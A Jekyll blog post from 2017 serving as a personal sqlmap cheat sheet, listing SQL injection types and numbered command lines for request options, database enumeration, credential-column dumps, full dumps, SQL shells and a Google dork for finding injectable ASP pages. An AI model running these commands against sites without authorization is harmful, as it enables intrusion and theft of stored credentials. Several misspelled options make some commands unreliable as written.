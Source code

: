 ```yaml
---
layout:		 post
title:		"sqlmap使用指南"
subtitle:	"参考了sqlmap的官方文档和网上的一些教程，手打出一篇"
date:		2017-02-20 23:14:12  +0800
author:		"Les1ie"
categories: jekyll update
header-img: "img/sqlmap-manul-pic.png"
---
```

> First write this article is several months ago, now post it on my blog


## sqlmap
1. `sqlmap -d ` is used to connect from your nachine to the database server's TCP port where the database management system is listening on.

## five different SQL injection types:
> Bollean-based blind
> Time-based blind
> Error-based blind
> Union query-based
> Stacked queries

## several 
1. sqlmap.py -u "url"
2. sqlmap.py -l burp.log
3. sqlmap.py -m 1.txt this is some url write in a text and sqlmap will test
4. sqlmap.py -r post_data.txt the txt file is data of post
5. sqlmap.py -g "inurl:asp?id" this is google dork
6. sqlmap.py -d "mysql//username:password@123.12.23.23:33306/databasename"

## several kind of requests
1. GET sqlmap.py -u "url"
2. POST sqlmap.py -r 1.txt 
3. POST FOR FORM sqlmap -u "url" --forms 
4. POST sqlmap.py -u "url" --data "age=24"
5. COOKIE sqlmap.py -u "url" --cookie "data" --level 2 NOTE:cookie only work when it is level2
6. User-Agent sqlmap -u "url" --user-agent="chrome 55 firefox 50" -v 3
7. Referer sqlmap.py -u "url" --referer "http://tieba.baidu.com" -v 3
8. Dealy sqlmap.py -u "url" --dealy 10
9. Timeout sqlmap.py -u "url" --timeout 10   NOTE:10seconds show timeout, default is 30s
10. Retry sqlmap.py -u "url" ---retries 10
11. Use regex `sqlmap.py -l burp.log -scope="(www)?\.target\.\(com|net|org|cn)"`
12. Avoid too much wrong requests sqlmap.py -u "url" --safe-url "url" get safe url in some time
13. Avoid too much wrong requests sqlmap.py -u "url" --safe-freq "url" get safe url every test
14. Pamera sqlmap.py -u "http://xxxx.com/id*/45" or sqlmap.py -u "url" -p "id"
15. Version of database sqlmap.py -u "url" -b
16. sqlmap.py -u "url" --banner
17. sqlmap.py -u "url" --current-db
18. sqlmap.py -u "url" --current-user
19. sqlmap.py -u "url" --users
20. sqlmap.py -u "url" --dbs
21. sqlmap.py -u "url" -tabels -D "databasename"
22. sqlmap.py -u "url" --columns -T "tablesname" -D "databasename"
23. sqlmap.py -u "url" --tables -D "databasename" --count
24. sqlmap.py -u "url" --dump -C "passwd, username" -T "tablename" -D "databasename"
25. sqlmap.py -u "url" --start 1 --stop 3 -T "tablename" -D "databasename"
26. sqlmap.py -u "url" --first 1 --last 5 
27. Get all the database sqlmap.py -u "url" --dump-all
28. Get all the database sqlmap.py -u "url" --dump-all --exclude-sysdbs Note:only get user database, bot system dbs
29. sqlmap.py -u "url" --sql-shell
30. sqlmap.py -u "url" --sql-query "select * from admin"
31. sqlmap.py -u "url" --search -D test NOTE:to search database name or -T -C
32. sqlmap.py -u "url" --schema NOTE:to show the constract of database
33. sqlmap.py -u "url" --exclude-sysdbs avoid system dbs

